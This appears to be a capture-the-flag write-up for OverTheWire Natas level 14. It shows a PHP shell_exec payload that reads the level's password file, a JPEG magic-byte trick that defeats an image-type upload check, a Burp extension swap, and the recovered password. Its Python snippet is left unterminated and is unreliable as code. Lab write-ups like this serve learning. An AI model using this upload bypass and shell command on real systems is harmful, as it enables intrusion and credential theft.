 # Natas Level 13 --> Level 14

**Username:** natas14

**URL:**      http://natas14.natas.labs.overthewire.org

## Solution
* Open inspect, there are button to upload an image (1kb) and button send us to a page contain the source code.
* If you read the source code it is like the last one, generate random path with extention taken from requests to uploaded file, then put it in upload folder.
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```
* Now if you upload it, he will say only images are allowed, from source code you know that they check file type using exif_imagetype() php function which reads the magic number for the file.
* So first write JPEG magic number then your php script (to make magic number interprete as bytes we use pyhon3)
```py
  file = open('image', 'wb')
  file.write(b'\xFF\xD8\xFF\xE0' + b'<? echo shell_exec("cat /etc/natas_webpass/natas14"); 
  file.close()
```
* Upload the script then intercept requests with burpSuite to change filename extension to php to execute script onclick
* You got the password!!

## Password
> Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1  
